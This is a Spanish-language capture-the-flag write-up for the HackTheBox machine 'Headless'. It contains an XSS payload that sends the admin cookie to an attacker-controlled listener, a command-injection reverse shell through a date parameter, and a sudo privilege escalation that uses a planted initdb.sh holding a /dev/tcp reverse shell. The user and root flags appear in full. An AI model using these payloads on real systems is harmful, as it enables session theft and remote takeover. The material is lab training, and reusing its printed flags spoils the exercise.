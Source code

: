 # Write Up Headless HackTheBox

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Puerto 5000

Cuando intentas hacer un ataque de XSS aparece lo siguiente...

```
Hacking Attempt Detected

Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.

Client Request Information:

Method: POST
URL: http://10.10.11.8:5000/support
Headers: Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.8:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 243
Origin: http://10.10.11.8:5000
Dnt: 1
Connection: close
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
```

Sabiendo que es vulnerable al XSS, con BurpSuit enviamos una peticion en algunos de los parametros que aparecen en la petcicion en mi caso "Accept-Encoding" lo cambio por lo siguiente...

```shell
<script>img = new Image(); img.src = "http://<IP>/a.php?"+document.cookie;</script>
```

Estando a la escucha con nuestro python:

```shell
sudo python3 -m http.server 80
```

Y cuando enviemos la peticion, reciviremos...

```
10.10.11.8 - - [07/May/2024 21:25:22] code 404, message File not found
10.10.11.8 - - [07/May/2024 21:25:22] "GET /a.php?is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

Por lo que tendremos su Cookie, ya que lo que le enviamos el lo envia por lo que se captura la cookie en ese momento y nosotros estando a la escucha lo capturamos...

### gobuster

```shell
gobuster dir -u <IP> -w <WORDLIST> -t 200
```

Te descubre "/dashboard" y si nos metemos hay con la cookie que tenemos, nos aparecera un panel visible...

Por lo que se ve envia una peticion al servidor por lo que se puede ejecutar comandos de alguna manera, si nos vamos al BurpSuit y capturamos la peticion de la pagina, donde aparece la fecha, podemos enlazarlo con otro comando, para ello nos haremos una "reverse shell"

```shell
date=2023-09-02; bash -c 'sh+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261'
```

```shell
nc -lvnp <PORT>
```

Y entrariamos como el usuario "dvir"

En la Home del propio usuario encontraremos la primera flag...

> user.txt (flag1)

```
46efac2d90e74839f9b61fdf92745f27
```

Para tener una shell sanitizada haremos lo siguiente...

Hacer una pseudoconsola:

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si haces `sudo -l` veras que puedes hacer como sudo sin contraseña el siguiente binario:

```shell
/usr/bin/syscheck
```

Lo unico que hace este binario es dar informacion del sistema en pequeña medida, pero si intentamos leer el binario veremos lo siguiente...

```
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Veremos que hay un archivo llamado `initdb.sh` que si se encuentra se ejecuta donde ejecutes el binario, al no existir el archivo lo creamos y dentro insertaremos lo siguiente...

```shell
sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Y estando a la escucha:

```shell
nc -lvnp <PORT>
```

Ese archivo lo llevamos a /tmp/ y dentro del mismo ejecutamos el binario como sudo para que asi inicie el .sh y nos mande una shell autenticada como root

Una vez siendo root veremos la flag...

> root.txt (flag2)

```
578b3f9666b677f815aa2c0a8f5dfe41
```
